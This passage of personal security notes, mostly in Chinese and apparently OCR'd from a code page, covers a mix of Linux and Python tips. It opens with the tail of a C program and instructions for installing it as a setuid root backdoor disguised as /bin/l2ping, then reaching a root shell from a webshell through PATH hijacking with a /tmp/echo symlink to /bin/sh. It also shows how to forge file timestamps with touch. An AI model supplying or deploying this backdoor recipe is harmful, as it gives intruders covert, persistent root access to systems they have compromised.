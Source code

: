         setresgid(gid, gid, gid);
        setresuid(uid, uid, uid);
    
        system("/usr/bin/env echo && echo runtime error.");
    }

    to use this file as a root shell backdoor after got a root shell,
    use root role execute:
        gcc -o 1 file.c
        mv 1 /bin/l2ping
        chmod 4755 /bin/l2ping(or in common user: sudo chown root /bin/l2ping;sudo chmod +s /bin/l2ping)
    use webshell role execute:
        PATH=/tmp:$PATH
        export PATH
        echo $PATH(to check if /tmp is in $PATH)
        ln -s /bin/sh /tmp/echo
    then use webshell role to get a root privilege shell:
        /bin/l2ping

105.linux中修改文件时间
    同时修改文件的修改时间和访问时间
    touch -d "2010-05-31 08:10:30" test.doc

106.rime全角到半角解决方法:如果主机突然变成全角而无法变回半角,从任意地方中复制一个正常的半角字符串到主机中任意地方即可,不用重启

107.ssh文件复制:eg.本机未登录前执行
        scp level08@192.168.2.140:/home/level08/capture.pcap /1.pcap     (remote->local)
        scp /tmp.txt level08@192.168.2.140:/home/level08/                (local->remote)

108.echo 'ibase=16;410' | bc 
        16进制的410转换成默认10进制:out->1040
    echo 'ibase=16;obase=2;410' | bc
        16进制的410转换成2进制:out->10000010000

109.python中ord和int:
    int('12')=12
    int('b')=error(int的参数只能是'num'类型)
    ord('b')=98
    ord('a')=97
    ord('0')=48
    ord('ascii')=ascii这一个字符对应的十进制整数(ascii只能是a character,not string)

110.书单
        http://www.heysec.org/archives/257
        https://www.zhihu.com/question/24152689
        http://m.blog.csdn.net/article/details?id=45482849

111.linux上ssh无法以root用户登录解决方法:
    vi /etc/ssh/sshd_config (attention!,here is not /etc/ssh/ssh_config)
    /PermitRootLogin<Enter>
    change to:
        PermitRootLogin yes

    macOS快速开启ssh服务:
    systemsetup -getremotelogin
    systemsetup -setremotelogin on
